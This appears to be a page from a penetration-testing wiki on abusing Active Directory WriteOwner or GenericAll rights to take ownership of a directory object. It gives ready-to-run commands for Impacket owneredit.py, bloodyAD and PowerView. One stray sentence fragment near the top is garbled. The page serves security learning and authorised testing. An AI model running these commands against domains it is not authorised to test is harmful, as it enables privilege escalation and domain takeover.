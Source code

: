 ```yaml
---
authors: CravateRouge, ShutdownRepo, sckdev
category: ad
---
```


# Grant ownership

t has the following command-line arguments.This abuse can be carried out when controlling an object that has `WriteOwner` or `GenericAll` over any object.

The attacker can update the owner of the target object. Once the object owner has been changed to a principal the attacker controls, the attacker may manipulate the object any way they see fit. For instance, the attacker could change the target object's permissions and [grant rights](grant-rights.md).

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s owneredit.py (Python).

```bash
owneredit.py -action write -new-owner 'attacker' -target 'victim' 'DOMAIN'/'USER':'PASSWORD'
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set owner $TargetObject $ControlledPrincipal
```


=== Windows

From Windows systems, this can be achieved with [Set-DomainObjectOwner](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObjectOwner/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
```

:::